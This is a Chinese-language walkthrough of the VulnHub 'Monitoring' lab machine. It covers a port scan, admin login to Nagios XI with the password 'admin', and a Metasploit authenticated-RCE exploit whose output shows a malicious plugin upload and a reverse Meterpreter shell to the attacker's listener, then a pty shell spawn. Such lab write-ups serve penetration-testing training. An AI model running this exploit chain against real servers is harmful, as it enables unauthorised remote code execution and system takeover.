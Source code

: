 # Monitoring

> https://download.vulnhub.com/monitoring/Monitoring.ova

靶场IP：`192.168.2.133`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.133                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-05 07:41 EDT
Nmap scan report for 192.168.2.133
Host is up (0.00062s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:43:DC:A3 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.68 seconds
                                                             
```

浏览器访问80端口

![image-20220905194312987](../../.gitbook/assets/image-20220905194312987.png)

跟随链接访问管理后台

![image-20220905195246754](../../.gitbook/assets/image-20220905195246754.png)

我们搜索 Nagios XI 的漏洞利用，我们发现了一个 authenticated_rce 漏洞利用。让我们加载 msfconsole 并加载漏洞 `nagios_xi_authenticated_rce`。

```
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set rhosts 192.168.2.133
rhosts => 192.168.2.133
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set lhost 192.168.2.129
lhost => 192.168.2.129
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.2.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3020772 bytes) to 192.168.2.133
[*] Meterpreter session 1 opened (192.168.2.129:4444 -> 192.168.2.133:40318) at 2022-09-05 07:54:37 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

```

```
shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
```

![image-20230208153815756](../../.gitbook/assets/image-20230208153815756.png)